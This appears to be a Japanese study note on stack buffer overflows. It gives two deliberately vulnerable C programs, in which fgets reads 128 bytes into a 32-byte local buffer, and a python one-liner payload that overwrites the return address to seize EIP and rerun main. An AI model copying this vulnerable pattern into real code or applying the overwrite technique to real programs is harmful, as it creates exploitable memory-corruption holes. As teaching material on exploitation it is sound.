 ### リターンアドレスの書き換え

リターンアドレスを書き換えることでプログラムの実効一を変更することができる。

```c
#include <stdio.h>
#include <string.h>

char buffer[32];

int main(int argc, char *argv[]) {
	char local[32];
	printf("buffer: 0x%x\n", &buffer);
	fgets(local, 128, stdin);
	strcpy(buffer, local);
	return 0;
}
```
これではEIPをうまく奪取できなかった。
関数を分けて、実行するとうまくいく。

```c
#include <stdio.h>
#include <string.h>

char buffer[32];

void foo() {
	char local[32];
	printf("buffer: 0x%x\n", &buffer);
	fgets(local, 128, stdin);
	strcpy(buffer, local);
}

int main(int argc, char *argv[]) {
	foo();
	return 0;
}

```
main関数の先頭アドレスを取得できれば、
```
$ python -c "print 'A'*44 + '\x9e\x55\x55\x56'" | ./bof2
```
などでEIPを奪取し、main関数を2回実行できる。
